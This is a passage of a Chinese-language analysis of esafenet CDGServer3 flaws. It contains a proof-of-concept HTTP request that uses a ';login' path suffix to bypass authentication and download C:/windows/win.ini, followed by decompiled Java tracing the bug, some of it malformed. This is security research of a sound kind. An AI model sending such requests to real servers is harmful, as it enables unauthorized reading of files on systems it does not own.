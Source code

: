 ```java
    OutputStream os = new FileOutputStream(file);
    int count = 0;
    int value = false;

    int value;
    while((value = is.read(buffer)) != -1) {
        os.write(buffer, 0, value);
        ++count;
        if (count % 10 == 0) {
            os.flush();
        }
    }
}
```





### （5）UploadFileList 任意文件下载漏洞

POC

```
POST /CDGServer3/document/UploadFileList;login HTTP/1.1
Content-Type: application/x-www-form-urlencoded

command=veiwUploadFile&filePath=C:/windows/win.ini&fileName1=11111
```



这个漏洞的路由相对有意思一些。web.xml中定义了该路由对应的处理类是`UploadFileListService`

```xml
<servlet>
   <servlet-name>UploadFileList</servlet-name>
   <servlet-class>
      com.esafenet.servlet.document.UploadFileListService
   </servlet-class>
</servlet>

<servlet-mapping>
   <servlet-name>UploadFileList</servlet-name>
   <url-pattern>/document/UploadFileList</url-pattern>
</servlet-mapping>
```

`UploadFileListService`中没有`doGet`或`doPost`这类方法，因为它本身不是一个Controller。

```
public class UploadFileListService extends WebController {...}
```

查看父类的`WebController`。这里的逻辑较为宽松，也是常见的对关键字login进行鉴权的判断。

```java
public class WebController extends HttpServlet {
    protected void service(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        Object[] actionParams = new Object[]{request, response};
        String actionName = request.getParameter("command");
        String fromurl = request.getParameter("fromurl");
        if (this.isRepeat(request) && fromurl != null && !"".equals(fromurl)) { // fromurl为空可以进入else if
            request.getRequestDispatcher(fromurl).forward(request, response);
        } else if (actionParams != null && actionName != null && !"".equals(actionName) && !"null".equals(actionName)) {
            LoginMng loginMng = (LoginMng)request.getSession().getAttribute("loginMng");
            String clienturl = request.getRequestURI();
```